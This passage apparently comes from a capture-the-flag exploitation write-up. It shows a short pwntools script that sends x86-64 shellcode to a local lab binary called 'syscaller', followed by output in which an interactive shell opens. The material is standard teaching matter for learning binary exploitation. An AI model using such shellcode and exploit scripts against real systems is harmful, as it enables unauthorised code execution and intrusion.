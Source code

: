 ```
shellcode = "\x31\xf6\x48\xbf\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdf\xf7\xe6\x04\x3b\x57\x54\x5f\x0f\x05"
target.sendline(shellcode)

# Drop to an interactive shell
target.interactive()
```

When we run it:

```
$    python exploit.py
[+] Starting local process './syscaller': pid 16165
input
[*] Switching to interactive mode
Hello and welcome to the Labyrinthe. Make your way or perish.
$ w
 02:45:51 up  7:59,  1 user,  load average: 1.33, 1.19, 1.10
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu :0       :0               18:47   ?xdm?  43:02   0.00s /usr/lib/gdm3/gdm-x-session --run-script env GNOME_SHELL_SESSION_MODE=ubuntu /usr/bin/gnome-session --session=ubuntu
$ ls
ROPgadget.py  core  exploit.py    readme.md  syscaller
$  
```

Just like that, we got a shell!